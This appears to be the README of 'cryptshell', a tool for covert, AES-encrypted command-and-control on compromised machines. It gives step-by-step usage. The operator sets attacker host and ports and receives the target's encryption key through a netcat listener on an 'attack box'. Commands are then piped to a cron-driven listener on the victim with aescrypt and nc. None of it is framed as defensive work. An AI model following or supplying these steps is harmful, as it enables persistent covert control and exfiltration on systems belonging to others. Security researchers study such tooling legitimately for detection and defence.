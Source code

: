 # cryptshell
AES Encrypted C2 Campaign Management

## usage
- pwn target
- configure the following variables in cryptshell
	- RHOST (the IP of your C2 server that you will be sending the commands from)
	- RPORT (the port on your C2 server that you want cryptshell to send the AES key to)
	- LPORT (the port you want the target to listen on)
- setup listener on attack box (to recieve key): nc -lnvp $RPORT > aes.key
- run cryptshell on target and kill the connection after the key is transferred
- pipe c2 commands through aescrypt and a socket to your target (the listener and decrypter are on a cron): echo "touch tmp" | aescrypt -e -k aes.key - | nc target $LPORT
	- since it runs on a cron, you can only send one payload per cron cycle, so I suggest you prepare scripted one liners
	- you will know if the commands were sent if you run the command and the connection hangs, wait a few seconds and force quit it
